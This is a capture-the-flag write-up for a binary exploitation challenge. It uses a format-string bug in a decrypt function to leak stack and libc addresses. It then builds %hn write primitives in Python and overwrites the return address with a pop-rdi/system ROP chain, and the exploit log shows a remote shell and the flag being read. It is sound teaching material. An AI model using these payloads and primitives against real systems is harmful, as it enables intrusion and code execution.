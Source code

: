 # Encryption and decryption service writeup

I don't really do pwn, but organazers dropped 2 android (YUCK), 1 python pickle( EW) and simple rust rev, so there was nothing to do.
It seems that the intended solution used gets() to overflow the buffer, but I solved without it


## Reversing the logic

Application generates a random master key (16 bytes)

Promts user with scanf(%d\n") for either 1 to encrypt or 2 to decrypt.

Encrypt:
 - Generates 16 random bytes for IV
 - fgets 16 chars at max from user
 - trunkates the last 15th and 16th if they are present
 - checks if input is A to Z (high letters only)
 - XORS with IV
 - encrypts with AES CBC
 - prints out iv and result in hex

Decrypt:
 - gets user string, the intended format for it is iv + result
 - checks if the string is 0x40 hex suitable chars
 - Decrypts with AES CBC
 - XORS with IV
 - print via printf(output)

## Attack vectors

Immidiatly I noticied gets, overflowed the buffer and gracefully smashed the stack and segfaulted.

Upon closer inspection I decided to check what is on the stack and to noone's surprise there is a stack canary right after the start of the function
```
mov     rax, fs:28h
```

So i abandoned the idea with gets :-)


Gazing into the scanf("%d\n") in hopes of divine intervention it came to me that the output from decrypt is actually user controlled.

We can encrypt an arbitrary string - ABCDABCDABCDAB, get its iv and result and since the IV is xored with the decrypted result at the end, We xor the IV with the string we want and get printf with controlled format.

This allows us an arbitrary read from the stack past the rsp with %offset$p and arbitrary write with %n shenanigans. I am now realising that this was propbably enought to leak the canary from the stack and use gets as a normal person, but I missed that somehow.

## Analysing what is available to grab from the stack

Looking at the stack and the registers right before the call:
```
RSI 000000000000000F - len of the string
RDX C55E5390500695CB - leak of the last 8 bytes of the last round key
RCX 00007FFFFFFFD5F0 - Juicy stack pointer -> rsp + 0xd0 and 0x88 away from the ret addr
R8  00007FFFF7FA8C88 - libc.so.6:main_arena+8 (IDA annotation, havent looked into it)
R9  0000000000000000

and then the stack
```
Doing printf("%3$p") leaks stack pointer with known offset

looking closer at the stack we see that printf("%49$p") leaks the ret addr to libc.

so theoretically we are set, apart from we cannot write to the stack, %n to the rescue!

## Convoluted write primitives

we find that at %54$p (this is 54th argument to printf) is a pointer to the stack (to the %83$p),  this sounds like a write primitive canditate

so to actually write 2 bytes where we want to we first write the 2 bytes where we want to write (83rd argument), reading that addr from 54th argument
```
dest_short = dest_short & 0xFFFF
s1 = b'%.'
s2 = str(dest_short).encode("ascii")
s3 = b'd%54$hn'
padlen = max(0, 16 - (len(s1) + len(s2) + len(s3)))
```

and then we read from the 83rd argument and write to now destination address the bytes we actually want with
```
d1 = b'%.'
d2 = str(bts_short).encode("ascii")
d3 = b'd%83$hn'
padlen = max(0, 16 - (len(d1) + len(d2) + len(d3)))
```

2 bytes offset is ok, since those arguments are close to each other (the 54th and 83rd).

So from that we can actually make an 8 byte write primitive
just repeating that 4 times and adjusting the values a bit:

```
def write8prim(bts_LONGLONG, dest_short):
    b1 = bts_LONGLONG & 0xFFFF
    b2 = (bts_LONGLONG >> 16) & 0xFFFF
    b3 = (bts_LONGLONG >> 32) & 0xFFFF
    b4 = (bts_LONGLONG >> 48) & 0xFFFF
    write2primEpilog(b1, dest_short)
    write2primEpilog(b2, dest_short + 2)
    write2primEpilog(b3, dest_short + 4)
    if (b4 == 0):
        return
    write2primEpilog(b4, dest_short + 6)
```


## Exploitation
We leaked the pointers, we have an arbitrary write primitive, we are set?

The stack we wanted to have at the end:

```
retaddr - 0x10 | CANARY         |  we just dont touch that
retaddr - 0x8  | 1              | idk what that is
retaddr        | pop rdi;  ret  |  Gadget
retaddr + 0x8  | ptr to /bin/sh | string from libc
retaddr + 0x10 | ret gadget     | (needed for stack alignment)
retaddr + 0x18 | system()       | funciton from libc
```

After quickly getting the shell on my machine I moved on to the server and realised they had a different libc version...

Using the libc_return_to_main_start_call_verylongname offset I narrowed it down to 10 libc versions, which I had to download one by one and find the offset for a pop rdi; ret gadget.

And finally it we got the output:

```
[+] Opening connection to encrypt-and-decrypt.challs.csc.tf on port 1337: Done
exploit str = b'%49$p-----------' === 16
exploit str = b'%3$p------------' === 16
libc: 7d7c2d607d90  base: 7ffec8697080
ReT ADDR =  0x7ffec8697108
[+] RDI
exploit str = b'%.28936d%53$hn--' === 16
exploit str = b'%.33765d%83$hn--' === 16
exploit str = b'%.28938d%53$hn--' === 16
exploit str = b'%.11616d%83$hn--' === 16
exploit str = b'%.28940d%53$hn--' === 16
exploit str = b'%.32124d%83$hn--' === 16
[+] binsh
exploit str = b'%.28944d%53$hn--' === 16
exploit str = b'%.26232d%83$hn--' === 16
exploit str = b'%.28946d%53$hn--' === 16
exploit str = b'%.11643d%83$hn--' === 16
exploit str = b'%.28948d%53$hn--' === 16
exploit str = b'%.32124d%83$hn--' === 16
[+] stack align
exploit str = b'%.28952d%53$hn--' === 16
exploit str = b'%.33766d%83$hn--' === 16
exploit str = b'%.28954d%53$hn--' === 16
exploit str = b'%.11616d%83$hn--' === 16
exploit str = b'%.28956d%53$hn--' === 16
exploit str = b'%.32124d%83$hn--' === 16
[+] system()
exploit str = b'%.28960d%53$hn--' === 16
exploit str = b'%.60784d%83$hn--' === 16
exploit str = b'%.28962d%53$hn--' === 16
exploit str = b'%.11618d%83$hn--' === 16
exploit str = b'%.28964d%53$hn--' === 16
exploit str = b'%.32124d%83$hn--' === 16
Ez
[*] Switching to interactive mode
$ 3
$ 3
$ ls
encrypt-and-decrypt
flag.txt
$ cat flag.txt
CSCTF{EncryP7_y0UR_p4Yl0ad}
$
```

You can notice that here the 53rd arg is used and not 54th, this is once again due to libc version difference


